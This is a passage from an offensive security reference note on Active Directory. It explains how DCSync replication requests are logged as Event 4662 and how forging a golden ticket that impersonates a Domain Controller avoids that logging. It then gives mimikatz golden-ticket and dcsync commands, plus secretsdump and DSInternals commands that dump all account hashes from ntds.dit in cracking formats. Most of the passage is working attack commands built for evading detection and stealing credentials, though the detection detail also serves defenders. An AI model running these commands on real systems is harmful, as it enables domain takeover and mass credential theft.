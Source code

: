 Note that whenever a replication request is made by any security principals
that is not a machine account member of the `Domain Controllers` /
`ENTERPRISE DOMAIN CONTROLLERS` domain groups, Windows `Security` events
`Event 4662: An operation was performed on an object` are generated. The
generated events will have, in the `Property` attribute, the
`1131f6aa-9c07-11d1-f79f-00c04fc2dcd2` and
`1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` `GUID`, and can thus be effectively used
to detect `DCSync` attacks. In order to avoid the generation of such events,
the identity of a `Domain Controller` can be usurped, either after the
compromise of a `Domain Controller` machine account `NTLM` hash or the
compromise of any of the `krbtgt` account secret.

Indeed, with knowledge of a secret of the targeted domain's `krbtgt` account, a
`golden ticket` impersonating a Domain Controller can be generated to conduct
replication operations without raising Windows `Security` events (`Event 4662:
An operation was performed on an object`). The `golden ticket` can be crafted
using `mimikatz` `kerberos::golden` module or `impacket`'s `ticketer.py`. For
more information on `golden tickets`, refer to the `[ActiveDirectory] Golden
Tickets` note.

```
# The <IMPERSONATED_DC_RID> can be obtained using:
(New-Object System.Security.Principal.NTAccount("<DOMAIN>","<DC_MACHINE_ACCOUNT")).Translate([System.Security.Principal.SecurityIdentifier]).Value

# mimikatz can be used to inject the generated golden ticket in the current session, allowing for direct use of "mimikatz # lsadump::dcsync".
mimikatz.exe "kerberos::golden /user:<IMPERSONATED_DC_MACHINE_ACCOUNT> /domain:<DOMAIN_FQDN> /sid:<DOMAIN_SID> [/rc4:<KRBTGT_NTLM> | /aes128:<KRBTGT_AES128> | /aes256:<KRBTGT_AES256>] /id:<IMPERSONATED_DC_RID> /groups:516 /sids:S-1-5-21-<DOMAIN_IDENTIFIER-AUTHORITY>-516,S-1-5-9 /ptt" "exit"
```

For more information on how to impersonate a Domain Controller after the
initial compromise of its machine account `NTLM` hash refer to the
`[ActiveDirectory] Silver Tickets` note.

### ntds.dit credentials information extraction

The `impacket`'s `secretsdump` Python script and PowerShell cmdlets of the
`DSInternals` module can be used to extract account(s) credentials information
from a specified `ntds.dit` file.

```
secretsdump.py -user-status -ntds <NTDS_DIT_FILE> -system <SYSTEM_HIVE_FILE> LOCAL

$key = Get-BootKey -SystemHivePath '<EXPORTED_SYSTEM>'
# By default all of the account(s) secrets are retrieved (NTHashHistory, LMHashHistory, Kerberos AES keys, etc.).
# The PowerShell cmdlet Format-Custom can used to automatically extract the LM / NTLM hashes of the output in a format supported by hashcat (HashcatNT) or John the Ripper (JohnLM / JohnNT).
Get-ADDBAccount -All -DBPath '<EXPORTED_NTDS_DIT>' -BootKey $key
Get-ADDBAccount -SamAccountName "krbtgt" -DBPath '<EXPORTED_NTDS_DIT>' -BootKey $key

Get-ADDBAccount -All -DBPath '<EXPORTED_NTDS_DIT>' -BootKey $key | Format-Custom -View <HashcatNT | JohnLM | JohnNT> | Out-File <OUTPUT_FILE>
```
